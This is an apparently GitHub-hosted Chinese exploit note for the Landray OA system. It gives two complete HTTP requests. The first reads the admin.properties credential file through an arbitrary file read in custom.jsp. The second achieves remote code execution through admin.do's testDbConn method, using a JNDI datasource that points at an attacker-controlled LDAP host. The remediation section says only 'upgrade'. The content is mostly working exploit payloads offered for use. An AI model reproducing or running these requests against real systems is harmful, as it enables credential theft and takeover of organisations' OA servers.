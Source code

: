 ### 一 漏洞描述
蓝凌软件全称深圳市蓝凌软件股份有限公司，于2001年在深圳科技园成立。蓝凌是国内知名的大平台OA服务商和国内领先的知识管理解决方案提供商，是专业从事组织的知识化咨询、软件研发、实施、技术服务的国家级高新技术企业，近期(2021-04-15) Landray-OA系统被爆出存任意文件读取漏洞和后台rce

### 二 漏洞利用
```
POST /sys/ui/extend/varkind/custom.jsp HTTP/1.1
Host: 192.168.0.101:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.54 Safari/537.36 Edg/95.0.1020.40
Accept: */*
Referer: http://192.168.0.101:8080/login.jsp;jsessionid=47794E4D4553DE56348578B560EA7BDD
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: JSESSIONID=47794E4D4553DE56348578B560EA7BDD
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 90

var=%7B%22body%22%3A%7B%22file%22%3A%22%2FWEB-INF%2FKmssConfig%2Fadmin.properties%22%7D%7D
```

解密码，登录；后台RCE

```
POST /admin.do HTTP/1.1
Host: 192.168.0.101:8080
Content-Length: 65
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.54 Safari/537.36 Edg/95.0.1020.40
Content-Type: application/x-www-form-urlencoded
Accept: */*
Origin: http://192.168.0.101:8080
Referer: http://192.168.0.101:8080/admin.do?method=config
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: JSESSIONID=47794E4D4553DE56348578B560EA7BDD
Connection: close

method=testDbConn&datasource=ldap://xxx.xxx.xxx.xxx:1389/xxxxx
```


https://blog.csdn.net/Dalian0/article/details/121119902


### 三 漏洞修复
升级


> 参考链接:   
> https://blog.csdn.net/Dalian0/article/details/121119902
